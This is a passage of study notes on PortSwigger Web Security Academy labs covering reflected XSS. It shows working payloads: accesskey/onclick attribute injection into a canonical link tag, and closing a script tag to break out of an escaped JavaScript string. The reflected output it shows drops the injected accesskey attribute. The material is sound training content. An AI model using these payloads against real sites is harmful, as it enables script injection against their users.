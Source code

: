 There's a thing called `accesskey` which is a way of accessing a certain html element with a keyboard. So we can add both `accesskey` and `onclick` to the `<link>` tag and later if user presses that `accesskey` which in our case is the letter `x` then the `onclick` event is fired.
So we need to change the url in the browser in the following way:
```
https://fff.web-security-academy.net/?'accesskey='x'onclick='alert(33)
```
which will be reflected in the browser in the `<link>` tag:
```
<link rel="canonical" href='https://fff.web-security-academy.net/?'onclick='alert(33)'/>
```

### XSS into JavaScript, Terminating the existing script
### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
There's an input field for a search on the website. Whatever we put in is reflected inside of a javascript string, e.g. if we put `hello333` into the search input:
`<input value="hello333">`
it will be reflected inside of a js variable:
```
<script>
...
var searchTerms = 'hello333'
...
</script>
```
Therefore inside the search input we can try to write `' + alert()` but we see that single quotes are escaped with a backslash `var searchTerms = "\' hello333"`

We then can try to escape the backslash with a backslash: `\' + alert()` but unfortunately the backslashes are also escaped properly

We can then try to close the `<script>` tag before the place where it really ends.: `</script><script>alert(33)</script>`

In other words this is what was before our injection:
```
<script>
...
var searchTerms = 'hello333'
...
</script>
```
And after in the search input we put `hello333</script><script>alert(33)</script>` then we get:
```
<script>
...
var searchTerms = 'hello333</script>
<script>alert(33)</script>
'
...
</script>
```
